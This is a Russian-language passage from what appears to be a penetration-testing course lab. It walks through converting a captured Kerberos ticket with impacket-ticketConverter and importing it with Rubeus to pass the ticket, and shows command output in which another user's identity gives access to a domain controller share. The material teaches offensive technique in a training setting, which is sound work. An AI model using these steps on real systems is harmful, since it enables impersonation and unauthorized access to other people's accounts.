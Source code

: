 
## Разнообразный

Если мы хотим использовать `ccache file`в Windows или `kirbi file`на машине с Linux мы можем использовать [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) для их преобразования. Чтобы использовать его, мы указываем файл, который мы хотим преобразовать, и имя выходного файла. Давайте конвертируем файл ccache Хулио в kirbi.

#### Конвертер билетов Impacket

Конвертер билетов Impacket

```shell-session
lizergindoma@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

Мы можем сделать обратную операцию, сначала выбрав `.kirbi file`. Давайте использовать `.kirbi`файл в винде.

#### Импорт преобразованного билета в сеанс Windows с помощью Rubeus

Импорт преобразованного билета в сеанс Windows с помощью Rubeus

```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio
```